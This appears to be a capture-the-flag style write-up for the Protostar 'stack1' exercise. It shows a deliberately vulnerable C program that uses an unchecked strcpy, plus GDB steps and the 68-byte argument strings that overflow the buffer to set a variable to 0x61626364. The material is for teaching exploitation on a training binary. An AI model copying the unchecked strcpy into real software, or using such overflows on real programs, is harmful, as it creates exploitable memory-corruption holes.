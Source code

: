 ## Protostar exercises - [stack1](https://exploit-exercises.lains.space/protostar/stack1/)

#### About
This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

This level is at /opt/protostar/bin/stack1

Hints

If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
Protostar is little endian

#### Source code:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

#### Procedure:

Similar to the previous one, the value of 'modified' variable needs to be changed. But here, it need to be changed to a specific value.

There is no `gets` call in this program. Instead, `strcpy` is used to copy the argument into buffer. 

##### Vulnerability:

`strcpy` is used to copy a string. if the destination string of a `strcpy()` is not large enough, then buffer overflow happens. We can use this to overflow the 64 bit buffer and write into the memory address where 'modified' is stored.

##### Disassembly:


We can see that 'modified' variable is at $esp+0x5c. Lets put breakpoints before and after `strcpy` and create hooks

```
break *0x080484a2
break *0x080484a7
define hook-stop
>info registers
>x/24wx $esp
>x/2i $eip
>end
```

Lets run with argument AAAAAAAA
```
r AAAAAAAA
```

We can see that addresses 0xbffff75c and 0xbffff760 are overwritten with A's. Also, 'modified' is stored at 0xbffff79c and has value of 0x00000000


We need to overwrite from 0xbffff75c to 0xbffff79c. That is 40 + 4 words (68 bytes)
Lets create a string of 68 bytes and make sure variable is overwritten
` r AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIII`


We can see that 0xbffff79c now has a value of 0x49494949 or IIII

Now we need to change I's in string to 0x61626364 (abcd)
Lets run with this argument 
`r AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHabcd`

Now we can see that 'modified' is changed to 0x64636261. This is because prostar is little endian (as mentioned in hints). Lets reverse abcd to dcba and try

`r AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHdcba`


Now, the variable has 0x61626364 and the program has passed
